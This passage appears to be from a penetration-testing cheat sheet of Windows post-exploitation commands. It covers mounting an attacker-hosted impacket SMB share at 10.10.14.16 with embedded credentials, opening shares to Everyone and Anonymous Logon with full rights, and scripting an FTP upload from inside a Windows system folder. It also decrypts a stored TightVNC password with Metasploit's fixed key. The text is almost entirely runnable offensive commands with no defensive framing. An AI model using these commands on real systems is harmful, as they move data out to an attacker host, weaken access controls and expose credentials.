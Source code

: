 1. [serverfault.com/a/333584/554483](https://serverfault.com/a/333584/554483)

Mount SMB in Windows with `net use`:

```
root@kali:$ impacket-smbserver -username snovvcrash -password 'Passw0rd!' -smb2support share `pwd`
PS > net use Z: \\10.10.14.16\share
PS > net use Z: \\10.10.14.16\share /u:snovvcrash 'Passw0rd!'
```

Mount SMB in Windows with `New-PSDrive`:

```
root@kali:$ impacket-smbserver -username snovvcrash -password 'Passw0rd!' -smb2support share `pwd`
PS > $pass = 'Passw0rd!' | ConvertTo-SecureString -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $pass)
Or
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $(ConvertTo-SecureString 'P@ssw0rd!' -AsPlainText -Force))
PS > New-PSDrive -name Z -root \\10.10.14.16\share -Credential $cred -PSProvider 'filesystem'
PS > cd Z:
```

##### net share

```
Cmd > net share pentest=c:\smb_pentest /GRANT:"Anonymous Logon,FULL" /GRANT:"Everyone,FULL"
Or
Cmd > net share pentest=c:\smb_pentest /GRANT:"Administrator,FULL"
Cmd > net share pentest /delete
```


#### FTP

```
$ python -m pip install pyftpdlib
$ python -m pyftpdlib -Dwp 2121
Cmd > cd C:\Windows\System32\spool\drivers\color
Cmd > echo 'open 127.0.0.1 2121' > ftp.txt
Cmd > echo 'user anonymous' >> ftp.txt
Cmd > echo 'anonymous' >> ftp.txt
Cmd > echo 'binary' >> ftp.txt
Cmd > echo 'put file.bin' >> ftp.txt
Cmd > echo 'bye' >> ftp.txt
Cmd > ftp -v -n -s:ftp.txt
```




## VNC

Decrypt TightVNC password:

```
root@kali:$ msdbrun -q
msf5 > irb
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["f0f0f0f0f0f0f0f0"].pack('H*'), fixedkey
=> "<DECRYPTED>"
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)
